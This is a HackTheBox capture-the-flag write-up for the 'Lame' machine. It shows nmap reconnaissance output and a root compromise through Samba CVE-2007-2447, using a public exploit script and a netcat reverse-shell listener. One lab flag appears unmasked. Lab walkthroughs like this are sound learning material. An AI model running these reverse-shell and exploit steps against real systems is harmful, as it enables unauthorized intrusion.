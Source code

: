 ```yaml
---
date: 2024-11-06
language: english
noteType: area
skills: "nmap, netcat"
status: draft
tags: [hackthebox, writeup]
title: Lame Write-Up
---
```


# Lame Write-Up

![Lame Overview](./lame-overview.png)

Lame is a very basic machine from the [Beginner Track](https://app.hackthebox.com/tracks/Beginner-Track) track to start getting familiar with the main tools of pentesting.

<!-- truncate -->

## Recon

### nmap

[[nmap]] finds four open TCP ports, FTP (21), SSH (22), old SMB (139), SMB (445):

```bash
nmap -p- --open --min-rate=5000 -Pn -T4 -oN nmap/open_ports 10.129.143.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-06 20:05 CET
Nmap scan report for 10.129.143.253
Host is up (0.048s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 26.54 seconds
```

```bash
nmap -p 21,22,139,445 -sV -sC -oN nmap/services_version 10.129.143.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-06 20:16 CET
Nmap scan report for 10.129.143.253
Host is up (0.046s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m38s, deviation: 3h32m10s, median: 36s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-11-06T14:17:14-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.82 seconds
```

### SMB

Looing the samba version I found [this](https://github.com/amriunix/CVE-2007-2447). So following the Python script I did the following.

- Open my netcat and type:

```bash
nc -lvnp 1234
```

- Execute GitHub exploit to get the root shell:

```bash
python3 usermap_script.py 10.129.143.253 139 10.10.14.129 1234
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

- Got shell:

```
nc -lvnp 1234
Connection from 10.129.143.253:41195
whoami
root
```

- Get the normal user and root flags:

```
ls home
ftp
makis
service
user
cd /home/makis
ls
user.txt
cat user.txt
f7da385424028604c99dd9ff8bb5a6b3
f7dXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
cd /root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
cat root.txt
618XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

And the machine is pwned! ;)

## References

- ch4p. (2017, March 14). <span class="reference-title">Lame</span>. _HTB Labs_. [https://app.hackthebox.com/machines/1](https://app.hackthebox.com/machines/1)
